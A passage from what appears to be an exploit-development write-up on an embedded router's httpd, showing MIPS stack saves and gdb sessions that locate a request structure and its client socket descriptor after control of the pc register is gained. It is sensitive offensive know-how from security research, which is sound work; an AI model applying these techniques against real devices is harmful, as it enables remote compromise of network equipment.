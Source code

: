 ```
                    sw                 ra,0x20c(sp)
                    sw                 s8,0x208(sp)
                    sw                 s7,0x204(sp)
                    sw                 s6,0x200(sp)
```

Since is all deterministic, we can add the offsets and find out where the
``req`` address is stored, i.e. ``-0x480 + 0x204`` bytes from where the stack
pointer is when we control the ``pc`` register; Let me double check
with ``gdb`` in a running instance:

```
(gdb) print/x 0x228 + 0x28 + 0x20 + 0x210
$4 = 0x480
(gdb) x/10xw (int*)($sp - 0x480 + 0x204)
0x7d3fead4:     0x0064c804      0x7d3fedf8      0x0050cf0c      0x00544d3d
0x7d3feae4:     0x00000000      0x7d3fed44      0x0000000e      0x00594d80
0x7d3feaf4:     0x0051fc64      0x7d3fee1c
```

``0x0064c804`` indeed is a value of memory located in the **heap**
(to confirm this take a look at the mapped address space at the beginning);
now we can add the offset to reach the ``socket`` variabile inside ``req``
i.e. ``0x34`` (this is not obvious of course, you should have reversed the internal
members of this structure)

```
(gdb) x/xw (*(int*)($sp - 0x480 + 0x204) + 0x34)
0x64c838:       0x0000000e
```

To double check that this file descriptor makes sense we can dig more information
inside the ``/proc`` pseudo filesystem

```
(gdb) info proc
process 25517
cmdline = 'httpd'
cwd = '/tl-rootfs/tmp'
exe = '/tl-rootfs/usr/bin/httpd'
(gdb) shell ls -al /proc/25517/fd
fd/     fdinfo/
(gdb) shell ls -al /proc/25517/fd/
total 0
dr-x------ 2 root root  0 Jan 21 09:05 .
dr-xr-xr-x 6 root root  0 Jan 21 06:03 ..
lrwx------ 1 root root 64 Jan 21 09:21 0 -> /dev/ttyS0
lrwx------ 1 root root 64 Jan 21 09:21 1 -> /dev/ttyS0
lrwx------ 1 root root 64 Jan 21 09:21 10 -> socket:[3149]
lr-x------ 1 root root 64 Jan 21 09:21 11 -> /tl-rootfs/tmp/pipe_mud80
l-wx------ 1 root root 64 Jan 21 09:21 12 -> /tl-rootfs/tmp/pipe_mud80
lrwx------ 1 root root 64 Jan 21 09:21 13 -> socket:[3150]
lrwx------ 1 root root 64 Jan 21 09:21 14 -> socket:[18959]
   ...
```
